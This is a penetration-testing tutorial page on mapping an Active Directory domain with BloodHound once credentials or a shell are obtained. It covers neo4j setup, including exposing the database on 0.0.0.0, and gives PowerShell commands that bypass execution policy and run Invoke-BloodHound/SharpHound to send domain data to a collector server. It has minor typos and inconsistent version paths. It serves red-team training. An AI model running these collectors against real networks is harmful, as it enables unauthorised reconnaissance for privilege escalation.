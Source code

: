 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone in the domain needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain without breaking any rules. Any user can query Active Directory for computers, domain controllers, groups and sessions.

Now we can use this brilliant feature to collect a ton of information and create a cool GUI map of the entire AD which can be queried using BloodHound. Do the following:

* [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/) [Community Edition](https://neo4j.com/download/community-edition/) manually from their [website](https://neo4j.com/download/?ref=hro) , not through apt.
* [http://neo4j.com/download/other-releases/\#releases](http://neo4j.com/download/other-releases/#releases)
* [A guide on installing can be found here](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
* Run neo4j from `/opt/neo4j-community-3.3.0/bin/neo4j start`
* Navigate to localhost:7474 in your browser.
* Set a new password for the neo4j account.
* Edit neo4j.conf and set the following parameters to make any host be able to access the database.
  ```
  dbms.connector.http.enabled=true
  dbms.connector.http.listen_address=0.0.0.0:7474
  ```
* Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
* Access neo4j in the browser at `http://0.0.0.0:7474/browser/`
* Install BloodHound according to instructions on the [Github page](https://github.com/BloodHoundAD/BloodHound/wiki/Getting-started)

* Launch BloodHound and log in to the neo4j database with credentials from before

The old method:

```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:

```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.

Another method:

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```



